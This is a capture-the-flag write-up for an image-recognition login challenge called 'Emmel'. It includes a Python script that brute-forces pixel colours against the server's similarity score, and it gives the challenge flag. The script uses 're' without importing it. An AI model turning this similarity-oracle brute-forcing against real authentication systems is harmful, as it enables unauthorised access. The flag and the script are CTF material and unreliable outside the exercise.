```yaml
---
layout: default
title: Emmel
parent: Miscellaneous
permalink: /:path/
nav_order: 2
---
```

# Emmel

> Points: 1222 [2000]

## Description

> Investigators have found a curious login page on a server belonging to COViD. Can you get past the login screen?
>
> [Login Page](http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:40751/)

## Solution
The approach to this challenge was to create a picture that was most similar to the image being stored on the server. 

Initially we uploaded quite a few pictures but did not manage to obtain more than 50%. 

Hence, we wrote a script to brute force all rgb for a single pixel however that did not work as well.

As such we wrote a script that bruteforces rgb for a 4 pixels and that manage to work.

Submitting [40.jpg](40.jpg) gave us the flag `govtech-csg{I_L0V3_G00D_D0GG0S!}`

```python
from requests import post
from PIL import Image
color =[]

for i in range(0,256):
    img = Image.new('RGB',(2,2),color=(0,0,0))
    img.putpixel((0,0),(255,43,0))
    img.putpixel((0,1),(17,2,2))
    img.putpixel((1,0),(1,i,0))
    img.save("{}.jpg".format(i))
    files = {'file': open('{}.jpg'.format(i),'rb')}
    url = "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:40751/recognize"
    r = post(url, files=files)
    reg = re.findall(r"Similarity: (.*)%", r.text)
    if reg:
        val = float(reg[0])
        color.append((val,i))
    else:
        print(r.text)
        print(i)
        break;  
color.sort(reverse=True)
print(color[:5])
```

## Fun fact
After obtaining the flag we saw the floating dogos. Apparently that picture if converted to jpg could also solve the challenge LMAO
Try it yourself! It's in [dogos.jpg](dogos.jpg)
## Flag
`govtech-csg{I_L0V3_G00D_D0GG0S!}`
